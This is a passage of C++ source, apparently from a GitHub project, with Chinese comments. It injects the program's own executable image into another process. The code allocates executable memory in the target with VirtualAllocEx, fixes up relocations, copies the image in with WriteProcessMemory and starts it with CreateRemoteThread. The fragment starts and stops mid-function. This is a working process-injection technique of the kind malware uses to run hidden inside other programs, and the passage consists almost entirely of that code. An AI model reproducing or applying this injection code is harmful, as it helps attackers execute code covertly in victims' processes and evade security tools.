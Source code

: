 ```c++
    }

    //获取loadlibrary和GetProcAddress的函数地址
    HMODULE hKernel32 = LoadLibrary(TEXT("Kernel32.dll"));
    MyLoadlibrary = (pLoadLibrary)GetProcAddress(hKernel32, "LoadLibraryA");
    pMyGetAddress = (pGetProcAddress)GetProcAddress(hKernel32, "GetProcAddress");

    //获取函数偏移
    DWORD CurrentImageBase = (DWORD)GetModuleHandle(NULL);
    DWORD dwTemp = (DWORD)ThreadProc;

    //修正地址
    if (*((char*)dwTemp) == (char)0xE9) 
    {

        dwTemp = dwTemp + *((PDWORD)(dwTemp + 1)) + 5;
    }

    DWORD pFun = dwTemp - CurrentImageBase;

    LPVOID pImageBuff = LoadImageBuffSelf();

    //在要注入的程序申请空间
    DWORD SizeofImage = GetSizeOfImage(pImageBuff);
    DWORD ImageBase = GetImageBase(pImageBuff);
    LPVOID pAlloc = NULL;

    for (DWORD i = 0; pAlloc == NULL; i += 0x10000)
    {
        pAlloc = VirtualAllocEx(hProcess, (LPVOID)(ImageBase + i), SizeofImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    }

    if ((DWORD)pAlloc != ImageBase) 
    {
        //修复重定向表
        ChangeImageBase(pImageBuff, (DWORD)pAlloc);

        printf("[*] ChangeImageBase successfully!\n\n");

    }

    //写入进程
    if (WriteProcessMemory(hProcess, pAlloc, pImageBuff, SizeofImage, NULL) == false) 
    {
        printf("[!] WriteProcessMemory failed,error is : %d\n\n", GetLastError());
        return 0;
    }
    else
    {
        printf("[*] WriteProcessMemory successfully!\n\n");
    }

    //创建远程线程
    if (NULL == CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD)pAlloc + pFun), (LPVOID)(pAlloc), 0, NULL))
    {
        printf("[!] CreateRemoteThread failed,error is : %d\n\n", GetLastError());
        return 0;
    }
    else
    {
```